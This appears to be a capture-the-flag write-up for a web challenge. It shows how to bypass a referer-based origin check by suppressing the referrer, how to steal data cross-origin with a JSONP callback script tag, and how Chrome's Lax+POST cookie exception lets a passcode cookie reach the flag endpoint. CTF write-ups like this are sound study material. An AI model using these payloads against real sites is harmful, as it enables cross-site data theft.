 The referrer is being checked like this, 
```js
function sameOrigin (req, res, next) {
	if (req.get('referer') && !req.get('referer').startsWith(process.env.URL))
		return res.sendStatus(403)
	return next()
}
```

The condition says `req.get('referrer') && !req.get('referer').startsWith(process.env.URL)`. So, to bypass this all we need to do is make sure that referrer is not being sent. Coz, in this case, req.get('referrer') would fail and 403 won't be sent. 

`res.jsonp` endpoint has a _defult endpoint_ called callback that could be used to get back JSONp data. Using a script tag and an endpoint with jsonp callback, we can retrieve the data. 

Soooo,

```html

<!DOCTYPE html>
<html>
<meta name="referrer" content="no-referrer">
<script src="https://jason.2021.chall.actf.co/languages?callback=console.log"></script>
</html>


<!--
the script would return
/**/ typeof console.log === 'function' && console.log({"category":"languages","items":["C++","Rust","OCaml","Lisp","Physical touch"]});
which is valid js

and thus

console.log is executed
-->
```

<br />

### The Problem:

To retrieve flag, we need to send the passcode cookie to the flag endpoint. The issue is that, with chrome's latest update, all the cookies are defaulted to [lax](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite) and this prevents the cookies from being sent cross-site. 

<br />

## Intended Solution

Recent changes in chrome made lax default. Due to this, the cookies dont get sent in cross origin requests. Though Chrome did this, they added some compatibility fixes.

```
Q: What is the Lax + POST mitigation?
This is a specific exception made to account for existing cookie usage on some Single Sign-On implementations where a CSRF token is expected on a cross-site POST request. This is purely a temporary solution and will be removed in the future. It does not add any new behavior, but instead is just not applying the new SameSite=Lax default in certain scenarios.

Specifically, a cookie that is at most 2 minutes old will be sent on a top-level cross-site POST request. However, if you rely on this behavior, you should update these cookies with the SameSite=None; Secure attributes to ensure they continue to function in the future.
```
source : [link](https://www.chromium.org/updates/same-site/faq)
